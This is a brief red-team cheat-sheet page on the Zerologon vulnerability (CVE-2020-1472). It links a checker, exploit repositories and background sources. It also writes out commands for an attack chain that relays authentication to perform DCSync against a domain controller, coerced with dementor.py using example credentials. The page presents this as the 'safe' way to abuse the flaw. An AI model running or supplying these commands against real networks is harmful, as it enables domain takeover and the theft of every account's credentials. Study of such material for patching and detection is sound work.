 # Zerologon

**CVE-2020-1472**

* [https://www.secura.com/uploads/whitepapers/Zerologon.pdf](https://www.secura.com/uploads/whitepapers/Zerologon.pdf)
* [https://twitter.com/\_dirkjan/status/1306280566313156608](https://twitter.com/_dirkjan/status/1306280566313156608)

Check:

* [https://github.com/SecuraBV/CVE-2020-1472](https://github.com/SecuraBV/CVE-2020-1472)

```
$ python3 zerologon_tester.py DC01 10.10.13.38
```

Exploit:

* [https://github.com/dirkjanm/CVE-2020-1472](https://github.com/dirkjanm/CVE-2020-1472)
* [https://github.com/blackarrowsec/redteam-research/tree/master/CVE-2020-1472](https://github.com/blackarrowsec/redteam-research/tree/master/CVE-2020-1472)

Exploits above **will break the domain!** Use this technique by @dirkjanm to abuse Zerologon safely:

* [https://dirkjanm.io/a-different-way-of-abusing-zerologon/](https://dirkjanm.io/a-different-way-of-abusing-zerologon/)

```
$ sudo ntlmrelayx.py -t dcsync://DC01.megacorp.local -smb2support
$ python dementor.py -d megacorp.local -u snovvcrash -p 'Passw0rd!' 10.10.13.37 DC02.megacorp.local
```
